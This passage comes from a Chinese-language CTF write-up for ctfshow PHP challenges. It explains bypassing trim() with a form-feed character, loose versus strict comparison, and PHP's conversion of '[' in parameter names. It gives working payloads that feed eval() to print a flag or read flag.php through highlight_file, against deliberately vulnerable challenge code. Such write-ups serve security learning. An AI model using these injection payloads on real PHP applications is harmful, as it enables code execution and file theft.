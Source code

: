 2、trim函数会把字符串前后空白字符去除(`空格%20`、`制表tab%09`、`换行%0a`、`回车%0d`、`垂直制表%0b`、`空字符%00`)

不过还有个`换页键%0c`可用

3、filter函数把$num里的`0x`、`0`、`.`、`e`、`+`都替换为1

可能疑惑的点是`$num!=='36'`和`$num=='36'`,这里就是强弱比较的差别

强比较比较类型和值；弱比较只比较值，如果类型不同，则转换类型再比较

`$num!=='36'`中，二者都是字符串类型，但值不同，因此不等
`$num=='36'`中，涉及数字的比较，会转换为数字类型再比较，从而相等

```
?num=%0c36
```

## 123、125、126-argv

```php
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}

# 125
if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16)
```

第一个是利用了：

php的变量名会默认把遇到的第一个`.`转换成`下划线_`

但如果出现了`[`，那么这个`[`转变为下划线后，后面的点并不会转化，可能是底层源码的问题
`CTF[SHOW.COM=>CTF_SHOW.COM`

然后就可以利用`eval("$c".";");`来rce；不过这个是非预期

```
POST:
CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag

# 125把flag过滤掉了，但还有别的办法
GET:
?1=flag.php
POST:
CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1])
```
